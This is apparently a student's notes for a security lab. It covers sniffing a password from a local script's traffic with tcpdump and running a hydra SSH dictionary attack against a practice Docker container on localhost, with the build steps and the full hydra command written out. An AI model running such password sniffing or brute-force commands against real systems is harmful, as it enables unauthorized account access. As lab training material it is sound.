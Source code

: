 # Tasks
- Task 0
run the script ./user_authenticating_into_server in your local ubuntu or any linux machine, then use tcpdump to sniff the network to find the password.

- Task 1.
Dictionary attack
* Install docker on your ubuntu or vagrant. (digital ocean)
* download container. **docker run -p 2222:22 -d ti sylvainkalache/264-1**
* sudo docker ps
* ssh sylvian@127.0.0.1 -p 2222 -- used to run the docker container/image.
* install hydra (digital ocean steps)
* get a file containing possible passwords (https://thehacktoday.com/password-cracking-dictionarys-download-for-free/)
* ERROR: compiled ithout LIBSSH v0.4.s support, module is not available.
	* sudo apt-get install libssh-dev
	* cd thc-hydra/
	* sudo make clean -- clean the last make done for hydra
	* sudo ./configure
	* sudo make install
* hydra -s 2222 -l sylvain -p password-text-file.txt 127.0.0.1 -v ssh
using brute force to get the password, you have to wait several hours.
